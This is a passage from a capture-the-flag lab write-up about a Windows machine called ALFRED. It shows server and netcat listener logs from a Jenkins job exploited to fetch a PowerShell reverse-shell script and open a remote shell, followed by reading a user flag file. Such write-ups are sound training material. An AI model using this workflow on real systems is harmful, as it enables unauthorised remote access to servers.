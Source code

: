 ![Build Now button](https://i.imgur.com/2RYq1y7.png)

We see a new build has been queued:

![our basic HTTP server works](https://i.imgur.com/blngU7y.png)
We see that our local server has received a request to serve a file, this seems to be working fine so far:

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.177.5 - - [16/Aug/2020 16:58:25] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -
```
Let's see if something happened in our listener:

```bash
listening on [any] 6666 ...
10.10.177.5: inverse host lookup failed: Unknown host
connect to [10.13.0.34] from (UNKNOWN) [10.10.177.5] 49204
Windows PowerShell running as user bruce on ALFRED
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files (x86)\Jenkins\workspace\project>

```

We got a reverse shell successfully!

so let's explore the machine a bit. If we type **dir c:/** we'll navigate to the root folder. From here we can go up into the Users folder to see what we got. We see a **bruce** user there. We can review each folder but for the sake of not making this write-up eternal Let's see what's inside the **bruce/Desktop/** folder.

```bash

Directory: C:\Users\bruce\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        10/25/2019   3:22 PM         32 user.txt                          


PS C:\Users\bruce\Desktop> type user.txt
{and-we-finally-get-the-flag-value}

```
Well, we made it this far. We were able to exploit a Jenkins project/job and we managed to get a reverse shell successfully. With this we can mark Question #3 as completed and we can  also answer question number 4.

> As it turns out we didn't need any **GoBuster** scans. They returned nothing useful anyways. However, we still we managed to get the initial access and it never hurts to do some extra enumeration.

 [Task 2] - Switching shells
 --------------------------
